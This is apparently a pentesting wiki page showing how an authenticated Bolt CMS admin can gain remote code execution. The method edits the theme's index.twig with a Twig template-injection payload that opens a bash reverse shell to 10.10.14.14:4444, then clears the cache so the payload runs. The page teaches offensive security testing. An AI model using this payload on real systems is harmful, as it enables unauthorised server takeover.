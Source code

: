 # Bolt CMS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details>

<summary>Support Resources</summary>

* Check the [**subscription plans**](https://patreon.com/khulnasoft)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@resources\_live**](https://twitter.com/khulnasoft\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**Resources**](https://github.com/khulnasoft/resources) and [**Resources Cloud**](https://github.com/khulnasoft/resources-cloud) github repos.

</details>
{% endhint %}

## RCE

After login as admin (go to /bot lo access the login prompt), you can get RCE in Bolt CMS:

* Select `Configuration` -> `View Configuration` -> `Main Configuration` or go the the URL path `/bolt/file-edit/config?file=/bolt/config.yaml`
  * Check the value of theme

<figure><img src="../../.gitbook/assets/image (771).png" alt=""><figcaption></figcaption></figure>

* Select `File management` -> `View & edit templates`
  * Select the theme base found in the previous (`base-2021` in this case) step and select `index.twig`
  * In my case this is in the URL path /bolt/file-edit/themes?file=/base-2021/index.twig
* Set your payload in this file via [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php), like: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
  * And save changes

<figure><img src="../../.gitbook/assets/image (948).png" alt=""><figcaption></figcaption></figure>

* Clear the cache in `Maintenance` -> `Clear the cache`
* Access again the page as a regular user, and the payload should be executed

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details>

<summary>Support Resources</summary>

* Check the [**subscription plans**](https://patreon.com/khulnasoft)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@resources\_live**](https://twitter.com/khulnasoft\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**Resources**](https://github.com/khulnasoft/resources) and [**Resources Cloud**](https://github.com/khulnasoft/resources-cloud) github repos.

</details>
{% endhint %}

